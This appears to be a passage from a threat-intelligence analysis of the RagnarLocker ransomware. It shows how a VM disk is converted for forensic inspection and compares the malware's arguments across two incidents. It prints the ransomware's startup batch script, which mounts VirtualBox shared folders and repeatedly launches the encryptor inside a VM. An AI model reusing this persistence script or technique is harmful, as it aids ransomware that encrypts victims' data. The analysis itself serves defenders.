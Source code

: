 <h4>Now, we need to turn the VDI file which content the volume of the VM to an image of the volume IMG for to do a forensic introspection of the VM. For doing it, we use VBoxManage tool on Virtualbox folder for converting it in cloning the disk.</h4>

```bat
>VBoxManage.exe clonehd ".\filD45DC43C44044930A5265DB22D05BF15.vdi" ".\filD45DC43C44044930A5265DB22D05BF15.img" --format raw
0%...10%...20%...30%...40%...50%...60%...70%...80%...90%...100%
Clone medium created in format 'raw'. UUID: 9f347ed8-3f5f-46f0-b275-fd9c4120f09d
```

<h4>We can now inspect with a reader of raw image the content of the disk, by the way, on the logic that the VM is automatically executed, we need to found the persistence on the VM that execute the payload when starting the session in the VM. This use as persistence way the startup folders for run it with a bat file. This mount all the shared links previously done by the configuration of the VM and push as link to the virtual links on the VM. Once this did execute the ransomware with the VM argument which triggers a configuration of actions, perform by the ransomware for a special use in a VM environment vector.</h4>

```bat
@echo off
ping -n 11 127.0.0.1
net use E: \\VBOXSVR\1
for %%d in (2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33) do (if exist \\VBOXSVR\%%d net use * \\VBOXSVR\%%d)
:a
ping -n 3 127.0.0.1
C:\vrun.exe -vm
goto a
```

<h4>Ragnarlocker is organized on an execution thread of a few sub-functions via entrypoint to the end. We can compare the structure between to the incident between April 2020 and July 2020, that the same structure with some splitted code to compact to singles blocks and an additional loop for one argument.</h4>

<center><img src="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/Additional%20Analysis/RagnarLocker/2020-08-08/Pictures/EntryRagnar.png"></img></center>

<h4>This has the same argument for delete the shadow copy, list the files, enforce it and the VM mod, this only change some strings like the title of the ransom note, arguments and internal id of the group.</h4>

<center><img src="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/Additional%20Analysis/RagnarLocker/2020-08-08/Pictures/entry0.png"></img></center>

<center><table>
<tr>
    <th>Energias de Portugal</th>
    <th>Carlson Wagonlit Travel</th>
</tr>
<tr>
    <th>-backup</th>
    <th>-backup</th>
 </tr>
<tr>
    <th>-list</th>
    <th>-list</th>
 </tr>
 <tr>
    <th>-force</th>
    <th>-force</th>
 </tr>
 <tr>
    <th>-vm</th>
    <th>-vmbackup</th>
 </tr>
</table></center>
